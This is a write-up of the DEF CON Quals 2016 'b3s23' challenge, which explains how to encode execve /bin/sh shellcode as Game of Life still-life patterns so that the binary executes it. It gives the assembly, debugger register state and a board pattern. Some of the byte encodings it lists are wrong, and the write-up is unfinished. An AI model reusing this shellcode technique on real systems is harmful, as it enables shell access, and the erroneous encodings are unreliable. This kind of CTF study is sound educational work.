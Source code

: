 # DEFCON Qualifier 2016: b3s23

----------
## Challenge details
| Contest        | Challenge     | Category  | Points | Solves |
|:---------------|:--------------|:----------|-------:|-------:|
| DEF CON CTF Quals 2016 | b3s23 | Coding Challenges |    111 | 34 |

**Description:**

> Please enjoy a Game of Life at b3s23_28f1ea914f8c873d232da030d4dd00e8.quals.shallweplayaga.me:2323
>
> [Download](http://download.quals.shallweplayaga.me/28f1ea914f8c873d232da030d4dd00e8/b3s23)

-------

## Write-up

### Background

From [Wikipedia](https://en.wikipedia.org/wiki/Conway%27s_Game_of_Life) we learn that b3s23 is the standard way of symbolizing Conway's Game of Life, where a cell is born if it has exactly 3 neighbors, survives if it has 2 or 3 living neighbors, or dies if neither is true. 

### Binary Details

```bash
$ file b3s23
ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

### Execution
Upon running the binary we receive the following:
```bash
$ docker run -i legitbs/b3s23
Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.
```
It is assumed that we need to enter coordinates in the form x,y (e.g. 1,2) followed by any other character in order to set the positions of the initial live cells on the gameboard and iterate the Game of Life. For example, in order to create a a Block, a [still life](https://en.wikipedia.org/wiki/Still_life_(cellular_automaton)), one could enter the following,
```
0,0
0,1
1,0
1,1
a
```
An excerpt of the output would be
```
110000
110000
000000
```
It was observed from the output that the game was iterating 15 times and then the connnection was closed. The output contained a 110x110 gameboard. I verified that if a coordinate less than 0 or greater than 109 was entered the following error would be printed.
```bash
110,0
Illegal Coordinate!
```
While running it locally, a `Segmentation fault (core dumped)` was reported. The initial assumption was that the result of the final iteration from the Game of Life was being executed by the binary somehow.

### Reverse Engineering

(TBD)

### Solution
To solve this challenge I decided to construct an initial Game of Life board such that the final board would contain assembly code that when executed would provide an interactive shell to the client. I decided to use execve system call to get a shell.

I started with the following execve shellcode,
```c
 int execve(const char *path, char *const argv[], char *const envp[]);
```

```assembly
xor    %eax,%eax        ; "\x31\xC0"
push   %eax             ; "\x50"
push   $0x68732f2f      ; "\x68\x2F\x2F\x73\x68"
push   $0x6e69622f      ; "\x68\x2F\x62\x69\x6E"
mov    %esp,%ebx        ; "\x89\xDC"
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %esp,%ecx        ; "\x89\xCC"
mov    $0xb,%al         ; "\xA2\x00\x00\x00\x00"
int    $0x80            ; "\xCD\x80"     
```
This shellcode accomplishes the following,

1. Sets eax to 0 and then pushes the value on the stack to Null-terminate the path
2. Pushes the the path string, "/bin/sh", on the stack
3. Moves the address of the path to ebx
4. Pushes eax on the stack again (still 0) in order to Null-terminate the argv array
5. Pushes the address of the path on the stack
6. Moves the adddress of the stack pointer to ecx
7. Moves the system call number for execve into al
8. Invokes the system call

I decided to attempt to encode the shellcode using only still life constructions. This would ensure that the entire construction would remain during the 15 iterations. At 22 bytes, the binary encoding of this shellcode would eventually wrap around the 110 bits of the first line of the game board. Wrapping would complicate the ability to stabilize the still life constructions. Therefore, I decided to try and reduce the size of the shellcode to only 13 bytes. 

By setting a breakpoint at `0xf661e000`, the address of the game board, I would be able to determine the state of the registers prior to executing the shellcode. The result was the following

``` assembly
eax     0x0
ecx     0x0
edx     0x1
ebx     0xf67c7000    ; last coordinate address
esp     0xf6ffb6cc
eip     0xf661e000
```

Since the eax register is already set to 0, I could eliminate the `xor eax,eax` instruction. The next four instructions are all used to get the address null-terminated path "/bin/sh" into `ebx`. The `ebx` register contains the address of the last bit that was set due to sending the program a coordinate. If I could encode the "/bin/sh" on the game board and send the program the coordinates for the first bit of the string, then `ebx` would already contain the address of the path. This would eliminate the need for the four instructions.

The path "/bin/sh" encodes to following binary string

```
00101111 01100010 01101001 01101110 00101111 01110011 01101000 
```
Unfortunately, the first bit is not a 1. Therefore I would need to set the coordinate 1 bit before my string and then increment ebx. I was able to encode "/bin/sh" using the following still life construction.

```
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  00011000000000000000000000000011000110000000011000000000000000000000000000000000000000000000000000000000000000
  00001000000000000000000000000010000010001000010000000000000000000000000000000000000000000000000000000000000000
  00010001011001100101100000000001000100010100000101101100000000000000000000000000000000000000000000000000000000
->00101111011000100110100101101110001011110111001101101000000000000000000000000000000000000000000000000000000000
  00101000000001000000000110101000001010000000100000000010000000000000000000000000000000000000000000000000000000
  01100100000001100000000000000000011001000001000000000110000000000000000000000000000000000000000000000000000000
  00001100000000000000000000000000000011000001100000000000000000000000000000000000000000000000000000000000000000
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```
